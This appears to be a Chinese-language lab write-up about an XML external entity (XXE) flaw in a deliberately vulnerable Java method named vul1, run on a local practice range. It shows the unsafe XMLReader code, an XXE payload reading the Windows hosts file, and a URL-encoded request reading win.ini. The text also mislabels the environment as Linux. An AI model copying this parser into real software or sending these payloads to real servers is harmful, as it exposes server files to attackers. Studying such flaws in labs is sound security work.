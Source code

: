 > public String vul1(String payload) {
>     try {
>         XMLReader xmlReader = XMLReaderFactory.createXMLReader();
>         StringWriter stringWriter = new StringWriter();
>         xmlReader.setContentHandler(new DefaultHandler() {
>             public void characters(char[] ch, int start, int length) {
>                 for (int i = start; i < start + length; i++) {
>                     if (ch[i] == '\n') {
>                         stringWriter.write("<br/>");
>                     } else {
>                         stringWriter.write(ch[i]);
>                     }
>                 }
>             }
>         });
>         xmlReader.parse(new InputSource(new StringReader(payload)));
>         return stringWriter.toString();
>     } catch (Exception e) {
>         return e.getMessage();
>     }
> }

代码功能解析

- 方法通过`XMLReaderFactory.createXMLReader()`创建一个 XML 解析器（`XMLReader`）。
- 设置`ContentHandler`为自定义的`DefaultHandler`子类，重写`characters`方法：遍历解析到的字符，将换行符`\n`替换为 HTML 的`<br/>`标签，其他字符直接写入`StringWriter`。
- 最终通过`xmlReader.parse(new InputSource(new StringReader(payload)))`解析输入的`payload`（XML 字符串），并返回处理后的结果。

`XMLReaderFactory.createXMLReader()`创建的 XML 解析器，默认配置下可能**允许解析外部实体**（具体取决于底层使用的 XML 解析器实现，如 Xerces 等）。
代码中没有显式禁用外部实体解析（如未设置`FEATURE_SECURE_PROCESSING`特性，或未禁止`ENTITY_EXPANSION_LIMIT`等），导致攻击者可以构造包含外部实体的恶意 XML payload。

假设攻击者传入如下恶意`payload`：

`<?xml version="1.0" encoding="UTF-8"?> `

`<!DOCTYPE root [  <!ENTITY xxe SYSTEM "file:///c:/windows/system32/drivers/etc/hosts"> <!-- 引用本地文件 --> ]> `

`<root>&xxe;</root>`

> 靶场中点击run后是针对于linux环境，修改payload
> http://127.0.0.1:8001/xxe/vul1?payload=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2FC%3A%2FWindows%2Fwin.ini%22%3E%5D%3E%3Croot%3E%26xxe%3B%3C%2Froot%3E

就可以看到windows的win.ini配置文件	



